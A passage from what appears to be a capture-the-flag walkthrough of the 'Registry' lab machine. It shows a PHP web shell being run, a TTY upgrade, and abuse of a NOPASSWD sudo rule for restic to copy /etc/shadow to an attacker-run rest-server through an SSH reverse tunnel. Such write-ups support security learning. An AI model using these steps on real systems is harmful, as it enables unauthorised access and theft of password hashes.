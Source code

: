 With the php extensions allowed in config.yml, and the php shell in place, we can visit the URL and execute the shell:

http://backup.registry.htb/bolt/files/shell.php

```
whoami
www-data
``` 

Voila, www-data shell!

To spruce up the shell a bit, we can import TTY:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Further Enumeration as www-data

Running sudo -l gives us the following:

```
User www-data may run the following commands on bolt:                                                                │Last login: Wed Mar  4 16:25:07 2020 from 10.10.14.26
    (root) NOPASSWD: /usr/bin/restic backup -r rest*  
```

It *appears* as if we'll need to create a rest server on our attacking machine:

https://github.com/restic/rest-server/releases

We can just download one of the releases, unzip it with gzip, and run it:

```
./rest-server-0.9.7-linux-amd64
```

Now, we can forward our local port to the victim machine, since it can't make outgoing connections:

```
ssh -R 1234:127.0.0.1:8000 -i id_rsa bolt@registry.htb
```

Now, we need to initialize the repo on the victim machine:

```
restic -r rest:http://127.0.0.1:1234/ init 
```

Now, we just backup an important file:

```
sudo restic backup -r rest:http://127.0.0.1:1234/ /etc/shadow  
```

This saves the backup on our attacking machine, under the /tmp/restic folder, so we can restore the backup on our attacking machine. First, we need to find the ID of the snapshot that's been saved:

```
restic -r /tmp/restic snapshots
```
